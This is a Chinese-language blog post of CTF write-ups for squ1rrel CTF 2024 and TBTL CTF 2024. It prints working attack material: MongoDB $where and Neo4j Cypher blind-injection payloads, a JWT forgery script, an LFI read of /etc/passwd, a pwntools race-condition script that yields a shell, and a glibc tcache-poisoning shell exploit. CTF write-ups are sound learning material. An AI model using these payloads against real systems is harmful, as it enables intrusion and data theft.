


# squ1rrelCTF2024 + TBTL CTF 2024 (Web + Pwn)
都是偏入门向，不是专业CTF，有些题比较猜/藏，不过确实有一些题目比较有趣

<!-- truncate -->
## squ1rrel CTF 2024
这个比赛pwn没有难题（最难是写shellcode，其他全是格式化字符串+栈溢出/ROP/GOT表劫持），web题全是nodejs。

### pwn - playground / revengeplay
两个写shellcode的题目。shellcode本身没有限制，但有seccomp沙箱规则，禁用了绝大多数系统调用（包括open read mmap ptrace等等和文件操作有关的调用），但是execve在第一个参数是某个地址的时候可以放行（第一问是堆地址，第二问是bss段）。flag包含在`/getflag`这个可执行程序里，执行它或者打印它都可以得到flag。然而这个题在进入shellcode前会把所有寄存器清空为0x42，同时程序本身开启了PIE，所以这个题的核心是如何找回地址。

```c
 0033: 0x15 0x00 0x04 0x0000003b  if (A != execve) goto 0038
 0034: 0x20 0x00 0x00 0x00000014  A = filename >> 32 # execve(filename, argv, envp)
 0035: 0x15 0x00 0x03 0x0000556b  if (A != 0x556b) goto 0039
 0036: 0x20 0x00 0x00 0x00000010  A = filename # execve(filename, argv, envp)
 0037: 0x15 0x00 0x01 0x490c7100  if (A != 0x490c7100) goto 0039
 0038: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0039: 0x06 0x00 0x00 0x00000000  return KILL
```

偶然发现`brk`（调用号为12）这个系统调用没有被禁用。根据manual，brk接受一个参数，即修改后的堆地址，成功返回0，失败返回-1。但是测试发现，当brk是一个不合理的值时，返回值其实是堆的结束地址，而我们知道一般情况下堆的大小默认是`0x21000`，所以可以得到堆起始地址。那么第一问就很容易得到结果了。

第二问则是要得到text段地址，堆和text段有不固定的偏移，不过好在这个程序的堆上是有未初始化的text段地址的（而且恰好就是execve白名单地址，可能是调用seccomp时留下的），所以在堆上遍历即可。

### web - goosemon
只是一个登陆界面，有一个admin用户，密码是flag。我们能够根据回显结果判断登录成功或者失败。用户验证数据库是mongodb，会直接把我们post进去的json放进去查询。

```js
const db = client.db(dbName);
const collection = db.collection("users");

const data = collection.find(req.body);
const result = await data.toArray();
if (result.length > 0) {
    res.status(200).send("Login successful!");
} else {
    res.status(400).send("Login failed!");
}
```
看起来就是一个布尔注入，主要的点是mongodb有很多高级查询语法（并不只是子缀匹配）。虽然题目过滤了regex，但查询文档可以知道有个`$where`关键字，可以执行任意javascript函数。下面这个可以用来进行密码的布尔盲注
```json
{
    "username": "admin",
    "$where": "function (){return this.password[%d] == '%s';}" % (index, chr(c))
}
```

### web - jsonstore
这个题的后端是TAFFYDB，这是一个有[已知CVE](https://security.snyk.io/vuln/SNYK-JS-TAFFYDB-2992450)，但无人维护的数据库模块。

TAFFY存储的都是json对象，本来的功能是我们提供一个子json，TAFFY返回包含子json的所有条目。但一方面主键格式完全可以被猜到，另一方面还有个内置选项/后门可以忽略主键以外的所有属性，可以导致获取数据库任意条目。直接用CVE提供的poc就能打通了

### web - keyserver
最费精力的一集。

这个题远端使用RS256的jwt验证我们的登录，但是考虑了`jwt`的issuer字段，即会主动请求外部的PEM公钥文件。但是限制了公钥Host必须以`10.`（内部地址）开头。然后会用fetch拿到公钥文件（顺便一提nodejs的fetch是不支持file协议的）

```js
let issuer;
try {
    issuer = new URL(header.issuer);
} catch (e) {
    return res.status(401).send("Failed to parse URL");
}

if (!issuer.host.startsWith("10.")) {
    return res.status(401).send("Invalid IP address");
}

// fetch public key from local key server
let publicKey;
try {
    publicKey = await (await fetch(header.issuer)).text();
} catch (e) {
    return res.status(401).send("Failed to get public key");
}
```

伪造JWT和对应公钥很简单：

```python
if not os.path.isfile('tempkey'):
    rsa_key = generate(1024)
    priv_key = rsa_key.export_key()
    pub_key = rsa_key.public_key().export_key()

    with open('tempkey', 'wb') as fp:
        fp.write(priv_key)

    with open('tempkey.pub', 'wb') as fp:
        fp.write(pub_key)
else:
    with open('tempkey', 'rb') as fp:
        priv_key = fp.read()

    with open('tempkey.pub', 'rb') as fp:
        pub_key = fp.read()

HOST = 'http://34.132.166.199:5250/admin'

# Need a controlable subdomain
res_jwt = jwt.encode({'user': 'admin'}, priv_key, algorithm='RS256',
            headers={
                "issuer": "http://10.test12345.strangled.net/K4n"
            })
```

但核心在于如何让服务器在访问我指定的`10.`开头的issuer URL时能够返回我指定的公钥证书？显然为了一个娱乐向的CTF题目买域名很不现实，不过好在这种子域名服务有现成的：

- [FreeDNS](https://freedns.afraid.org/subdomain/): 提供几个域名的任意子域名的DNS解析：
  - A：解析到IP地址
  - CNAME: 解析到另一个域名，可惜FreeDNS不支持这条
  - TXT：似乎是附加信息的解析
  - URL: 其实就是网址重定向，这个才是我们需要的，不过虽然FreeDNS能申请通过，但是实际上解析不出来。



- [redirhub](https://dash.redirhub.com/)：短链接提供商。在可控域名（需要一个CNAME解析或者A+TXT解析）的情况下，可以提供短链接重定向服务（有免费次数限制不过够用，不行还可以重新注册）



完成后，过几分钟，域名就可以访问了。重定向目标是唯一指定静态文件托管服务[buuoj Linux Lab](https://buuoj.cn/challenges#Linux%20Labs)

> 顺便FreeDNS提供的几个域名被Edge标红了，意料之中，这种免费服务挂的基本都是钓鱼网站。

## TBTL CTF 2024
只看了pwn和web，web没有难题，pwn有不少非传统意义上的题（甚至包括一个Python沙盒逃逸，不过那个太难了没做）
### web - butterfly
上来就是一个JS antidebugger，得先关掉断点调试。

不过这样这个题的JS代码也是混淆过的了，只能看看其他地方：
- SessionStorage里有一个`KEY=secret key is very secure`
- LocalStorage里有一个：`execute={"code":"CryptoJS.AES.decrypt(CIPHERTEXT, KEY).toString(CryptoJS.enc.Utf8)"}`
- IndexDB里有一个`strangeStorage`数据库，包括一个FLAG字段，看起来是Base64格式（把这个indexDB提取出来好费劲啊，结果是`U2FsdGVkX19wWL7itIL7TZcLTP/e1ulrZolI9AHTA8OBGOCodbZKdOxPF41rGV9C+X7PZPt9ISJKQMpTl+Fwew==`，即Salted__开头）

所以直接控制台执行`CryptoJS.AES.decrypt('U2FsdGVkX19wWL7itIL7TZcLTP/e1ulrZolI9AHTA8OBGOCodbZKdOxPF41rGV9C+X7PZPt9ISJKQMpTl+Fwew==', 'secret key is very secure').toString(CryptoJS.enc.Utf8)`得到结果。不得不说有点意味不明。

### web - Rnd For Data Science
基于`pandas.readcsv`出的题，没有完全弄懂但是蒙出来了。大致意思是会在生成的CSV里添加一行`NaN,FLAG,{actual flag}`，然后过滤掉第二列名是FLAG的行。我们可以指定列名和分隔符，但是有黑名单，不能包含`'"!@`。
```python
# Filter out secrets
first = list(df.columns.values)[1]
df = df.query(f'{first} != "FLAG"')
```

生成CSV header的代码：
```python
headers = ['id'] + [request.form["columnName" + str(i)] for i in range(num_columns)]
csv_file = delimiter.join(headers)
```

查询文档可以知道pandas的列名有些字符是有特殊含义的，除了上面这些，还有`&|`。比如下面这组：

```python
data = {
    'numColumns': '2',
    'columnName0': 'a',
    'columnName1': 'a,b',
    'delimiter': '|'
}
```
返回的header结果为：`id|a|a,b`，如果直接调用`read_csv`会把`id|a|a`当成一列，自然找第二列是找不到FLAG的。

```python
"id|a|a"|b
"0|3|9"|
"NaN|FLAG|TBTL{d4T4_5c13nc3_15_n07_f0r_r0ck135}"|
```

### web - talk
PHP LFI题目，容易发现`https://tbtl-talk-to-you.chals.io/?page=xxx.html`存在文件包含操作，包含`index.php`可以报错（说明是可执行代码的），然后本地requests发现可以`../etc/passwd`文件包含（浏览器上不行，因为返回的文件有一段JS重定向回到主页）

经过一阵艰难的取证（猜），发现`/flag.txt`内容是`<p style="color: rgba(0, 0, 0, 0)">Flag is in SQLite3: database.sqlite</p>`，一开始没理解到意思，不过好像是说`database.sqlite`就是一个文件，尝试读取发现FLAG明文包含在其中了。这个题出的实在不怎么好。很可惜没找到包含马的地方没法RCE了。


### web - mexico city tour
这个题基于`neo4j`的Cypher语言，这是一种图数据库语言。题目描述中，FLAG在数据库的某个节点的某个字段里。这个题对输入是直接拼接的形式，也就是可以注入。不过这个题只能回显一个数字，我在Cypher文档里也没找到如何把字符串转为ASCII值的函数，所以只能打布尔盲注了。

关于Cypher Injection，我主要参考了[这篇博客](https://pentester.land/blog/cypher-injection-cheatsheet)和[官方文档](https://neo4j.com/docs/cypher-manual/current/introduction/)

```python
start = request.form["startStation"]
end = request.form['endStation']
distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'
```

最后我构造出来的注入语句如下（都是逐个ASCII遍历）：
```python
key_query = lambda ind, s: {
    'startStation': '0})-[p *bfs]-(m {name: \'FLAG\'}) where substring(keys(m)[2], %d, 1)=\'%s\' RETURN 65537 AS distance; //' % (ind, s),
    'endStation': '0',
}

flag_query = lambda ind, s: {
    'startStation': '0})-[p *bfs]-(m {name: \'FLAG\'}) where substring(m.flag, %d, 1)=\'%s\' RETURN 65537 AS distance; //' % (ind, s),
    'endStation': '0',
}
```
爆出来数据库每个节点（Station类型）的三个字段分别为id, name, flag（只有第三个需要爆破，前两个在代码中已知），FLAG所在节点的id为-1，name为FLAG。用where子句很容易构造布尔盲注，要么返回一个值，要么没有返回值。

### pwn - average
基于同栈调用，未初始化内存的题。题目会先调用一个函数把flag存储到栈上，然后调用一个新的函数，建立一个int数组，用scanf把输入读取到内存上，然后返回输入之和的平均值。

问题在于scanf解析不出数字时会直接返回，所以我们只要输入一个非数字，就能让后续所有scanf失败，那么此时被用于计算平均值的内存值就是未初始化的（也就是上一次同栈调用的flag内容）。多次反复调用可以获得flag内容。

### pwn - races
有点意思的一个题，从题目名字来看就是考条件竞争。首先题目所有的输出都是单个字符并且间隔0.1秒（增大时间窗口），这个题会接受一个文件名（必须只包含小写字母和点），c语言源码。程序会把源码保存到指定文件中，首先校验sha1是否是已知值（只有两个允许的已知值），然后用gcc编译（编译目标文件名为源码名.exe），之后`subprocess.check_call`运行。

如果我们可以在校验好的文件编译后到可执行文件执行前，上传一个新的文件覆盖编译后的可执行程序，那么就会达到偷梁换柱的效果，即TOCTOU攻击。上传的新文件即使只是一个shell也没有关系：
```sh
#!/bin/sh
echo getshell
exec /bin/sh
```

```py
conn1 = remote('0.cloud.chals.io', 10840)
conn2 = remote('0.cloud.chals.io', 10840)
conn1.sendlineafter(b'Enter filename: ', f"{fname}.c".encode())
conn2.sendlineafter(b'Enter filename: ', f"{fname}.c.exe".encode())
conn1.sendlineafter(b'Enter contents (base64): ', allow_b64)

conn1.recvuntil(b'Runn')

conn2.sendlineafter(b'Enter contents (base64): ', getshell_b64)

# conn1.sendline(b'ls /; cat flag')
conn1.interactive()
# TBTL{T1m3_0f_chEck_70_tIM3_0f_PWN}
```

### pwn - diamonds and rust
这个题是一个rust，给了源码，虽然没有完全理解。

其实是一个登录界面。首先我们可以输入一个用户名，然后程序会回显用户名，要求我们输入密码。之后把密码和某个常量比对，如果相等会给我们flag。

这个题源码有两处unsafe代码，出现在设置字段（用户名和密码）与打印用户名时。
```rust

macro_rules! set_field {
    ($self:expr, $value:expr, $max_len:expr, $field_size:ident, $field:ident) => {
        $self.$field_size = $value.len();
        let value_chars = $value.chars().collect::<Vec<_>>();
        if value_chars.len() > $max_len {
            panic!("Value must not exceed {} characters!", $max_len);
        }

        unsafe {
            std::ptr::copy_nonoverlapping(
                $value.as_bytes().as_ptr(),
                $self.$field.as_mut_ptr(),
                value_chars.len(),
            );
        }
    };
}

fn set_username(&mut self, username: &str) {
    set_field!(self, username, MAX_USERNAME_LENGTH, username_size, username);
}
fn print_username(&self) -> () {
    for i in 0..self.username_size {
        unsafe {
            let current_byte = *self.username.get_unchecked(i);
            std::io::stdout()
                .write_all(&[current_byte])
                .expect("Error while printing the username");
        }
    }
}
```

`get_unchecked`和`copy_nonoverlapping`的文档提示了这个题可能的思路：

> - get_unchecked: Safety: Calling this method with an out-of-bounds index is undefined behavior even if the resulting reference is not used.
> - copy_nonoverlapping: The copy is “untyped” in the sense that data may be uninitialized or otherwise violate the requirements of T. The initialization state is preserved exactly.

因此可能需要一个数组越界。另外，rust中字符串`.len()`似乎返回的是字节数，但`get_unchecked`返回的是字符数，因此当输入多字节字符时，会发生数组越界，把后面的内容打印出来。
为了获取最多的数组越界，我们希望输入emoji（4个字节），这样在用户名回显时会打印出后面三倍长度的内存（我们取程序允许的最长用户名：`'😅'*32`，能多返回96字节）。
本地测试发现，密码其实就在后面的内存里，并且会重复两遍。因此，我们只需要找到远端重复的内存即可。

```log
[DEBUG] Received 0x99 bytes:
00000000  48 65 6c 6c  6f 2c 20 f0  9f 98 85 f0  9f 98 85 f0  │Hell│o, ·│····│····│
00000010  9f 98 85 f0  9f 98 85 f0  9f 98 85 f0  9f 98 85 f0  │····│····│····│····│
00000020  9f 98 85 f0  9f 98 85 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000040  00 00 00 00  00 00 00 10  59 bd 21 c8  55 00 38 38  │····│····│Y·!·│U·88│
00000050  66 35 64 37  64 36 36 35  30 64 62 65  31 39 35 61  │f5d7│d665│0dbe│195a│
00000060  62 31 39 61  39 38 65 65  38 31 66 31  35 32 38 38  │b19a│98ee│81f1│5288│
00000070  66 35 64 37  64 36 36 35  30 64 62 65  31 39 35 61  │f5d7│d665│0dbe│195a│
00000080  62 31 39 61  39 38 65 21  0a 45 6e 74  65 72 20 70  │b19a│98e!│·Ent│er p│
00000090  61 73 73 77  6f 72 64 3a  20                        │assw│ord:│ │
[DEBUG] Sent 0x21 bytes:
b'88f5d7d6650dbe195ab19a98ee81f152\n'
[*] Switching to interactive mode
Here is your flag: 
TBTL{TnX_F0r_0ff3r1n6_M3_S3cr3t5_1n_Ru57}
```
还好不是safe rust，否便样衰了

### pwn - heap peek and poke
libc 2.27 (Ubuntu 18.04) 堆题，保护全开，给源码
源码其实很简单，是一个C++的，可以无限次读取/写入单个字符，有一个int的大小范围的数组越界。
```cpp
void win() {
  ifstream in("flag.txt");
  string flag;
  in >> flag;
  cout << flag << endl;
}

int main() {
  cout.setf(ios::unitbuf);
  cout << ENTER_PROMPT << endl;
  string s;
  getline(cin, s);
  if (s.size() < 0x20)
    return 0;
  while (true) {
    cout << COMMAND_PROMPT << endl;
    string line;
    getline(cin, line);
    istringstream iss(line);
    string command;
    iss >> command;
    if (command == POKE_CMD) {
      int x, y;
      if (!(iss >> x >> y)) {
        cout << HELP.at(POKE_CMD) << endl;
        continue ;
      }
      s[x] = char(y);
    } else if (command == PEEK_CMD) {
      int x;
      if (!(iss >> x)) {
        cout << HELP.at(PEEK_CMD) << endl;
        continue ;
      }
      cout << int(s[x]) << endl;
    } else if (command == QUIT_CMD) {
      cout << BYE_MSG << endl;
      break ;
    } else {
      cout << UNKNOWN_CMD << endl;
      continue ;
    }
  }
  return 0;
}
```

不过有些东西在源码里可能直接体现不出来：while循环内声明的三个string/istringstream局部变量，会向堆申请内存，并在进入下一次循环前释放。也就是说，这个循环隐含了三次malloc过程和三次free过程。malloc的大小一定程度可控（和输入的command长度有关，但会稍微长一点）

经过调试可以发现，当进入这个循环时，堆上已经申请了一大堆堆块了，tcache也装了一些，因而可以从tcache泄露堆地址。并且从这些堆块能找到一个指向rodata段的地址，通过这个我们可以泄漏代码段地址，而通过GOT表我们可以拿到LIBC地址（注意只是拿到地址，int长度的溢出无法让我们改mmap地址段）

接下来的思路我打算用tcache poisoning打`__free_hook`。我发现当输入字符串为`0x18`长度且不包含空格（空格是`istringstream >>`的分隔符）时，三个局部变量申请的堆块为`0x30`，因此我只要把第二个堆块的`fd`改成`&__free_hook - 0x10`，再输入一个`0x18`字符串时，会覆盖到`__free_hook`，在循环结束释放时，会调用`hook(chunk_addr)`（chunk仍然是我们这次的输入），如果这次的输入是`"/bin/sh;/bin/sh;" + p64(system_addr + 0x5)`，那么就会调用hook函数`(system + 5)("/bin/sh;...")`。

- 为什么是第二个堆块？因为tcache poisoning要求的是链表尾的倒数第二个堆块，这样刚好分配到目标位置后就不再有多余的malloc过程了（否则一定会报错）
- 为什么是`system + 5`？因为这个版本`libc`的system地址偏移刚好是`0x420`，而`0x20`是空格，会被`istringstream`截断，无法写到freehook里。这个5是跳过了system开头一个不重要的分支指令。
- 为什么不用`win`函数？好问题，因为打的时候太上头我忘了（能getshell为什么还要用win函数？）
- 打`__malloc_hook`行不行？三次free的过程会提示invalid pointer（应该是修改后tcache第三个块的fd非空导致的）


另外说一个很有趣的思路，这个题当初始输入字符串超过128KB时，会被mmap分配内存，并且当足够大时（MB级别，主要是为了ld, libm，libstdc++这些的堆空间装不下）会分配到和libc固定偏移的内存上，理论上可以直接改hook / IO_vtable。只可惜一个字节一个字节改动应该会导致malloc/free中途报错，所以还是直接在tcache上做会简单一点。不知道有没有人基于这个思路打通。